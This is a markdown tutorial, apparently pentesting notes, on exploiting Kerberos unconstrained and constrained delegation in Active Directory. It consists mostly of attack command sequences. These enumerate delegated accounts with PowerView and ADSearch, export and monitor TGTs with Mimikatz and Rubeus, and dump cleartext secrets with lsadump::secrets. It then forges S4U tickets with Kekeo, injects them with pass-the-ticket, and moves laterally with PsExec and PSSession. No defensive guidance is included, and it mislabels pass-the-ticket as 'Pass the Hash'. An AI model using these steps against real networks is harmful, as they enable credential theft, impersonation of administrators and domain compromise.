 The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting.

**types:**
**First: Unconstrained Kerberos Delegation**<br>

When a user authenticates to a computer that has unresitricted kerberos delegation privilege turned on, authenticated user's TGT ticket gets saved to that computer's memory. The reason TGTs get cached in memory is so the computer (with delegation rights) can impersonate the authenticated user as and when required for accessing any other services on that user's behalf.
```
# List unconstrained computers
## Powerview
Get-NetComputer -Unconstrained #DCs always appear but aren't useful for privesc
## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
# Export tickets with Mimikatz
privilege::debug
sekurlsa::tickets /export #Recommended way
kerberos::list /export #Another way

# Monitor logins and export new tickets
.\Rubeus.exe monitor /targetuser:<username> /interval:10 #Check every 10s for new TGTs
```
Then use **Pass the Hash attack** using ```Mimikatz``` to inject it into current our session :
```
mimikatz # kerberos::ptt <TheTicketPass>
mimikatz # exit
Bye!
.\PsExec.exe -accepteula \\machine.domain.local cmd
```

**Second: Constrained Kerberos Delegation** 

Constrained Delegation restricts what services an account can be delegated to, limiting exposure if an account is compromised. Once the client logged in to the delegated service 1, the service 1 ask the KDC to provide S4U2self (simillar to TGT) and S4U2proxy (simillar to TGS) using the TGT of the client. An example of this would be if we were able to compromise an AD account that had constrained delegation configured. By knowing the plaintext password or even just the NTLM hash of this account, we could generate a TGT for this account, then use the TGT to execute a ```S4U``` request for any non-sensitive user account in order to access the service as that user.
 
The following are examples of services that can be configured for delegation:
```
HTTP - Used for web applications to allow pass-through authentication using AD credentials.
WSMAN - It's utilized by PowerShell's remoting feature, allowing administrators to execute commands and scripts on remote computers.
CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
HOST - Allows delegation of account for all activities on the host.
MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
```
**Constrained Delegation Exploitation**
The first thing we need to do is enumerate available delegations usint ```PowerView``` tool.
```
PS C:\>Import-Module C:\Tools\PowerView.ps1 
PS C:\>Get-NetUser -TrustedToAuth
```
After this recon we should to dump the clear text passwords from registry hive file hopping to find the delegated account password. <br>
We could do this using ```Mimikatz``` tools:
```
# token::elevate    -> is used to impersonate a token with higher privileges
# lsadump::secrets    -> dump clear text passwords
```
Now it's time to use ```Kekeo``` tool to generate our tickets and then use Mimikatz to load those tickets into memory. Let's start by generating the tickets:
```
# tgt::ask /user:<DelegatedAccountUserName> /domain:<DomainName> /password:<DelegatedAccountPassword>
```
This command used to make a TGT associated to the delegated account to make sure this account authenticated in the AD environment.<br>
Now that we have the TGT for the account that can perform delegation, we can forge TGS requests for the account we want to impersonate.
```
# tgs::s4u /tgt:<TheTGTOfTheDelegatedUser> /user:<TheAdministrativeAccountWeWantToImpersonate> /service:<ServiceName>/Machine.Domain.local
```

TheAdministrativeAccountWeWantToImpersonate ->  might be retrived from the enumeration. If we couldn't that we will use the "administrator" if it's enabled.
**Finally:** we use **mimikatz** to pass the ticket and inject it into our current session.
we should make new window of mimikatz to do that.
```
# privilege::debug
# kerberos::ptt <TGTfile> 
```
Now that the tickets are imported, we can finally create our PSSession on the target machine that the delegated account has delegation on.

```
mimikatz # exit
Bye!
PS C:> New-PSSession -ComputerName <TargetMachine.DomainName.local>
PS C:\> Enter-PSSession -ComputerName <TargetMachine.DomainName.local>
```












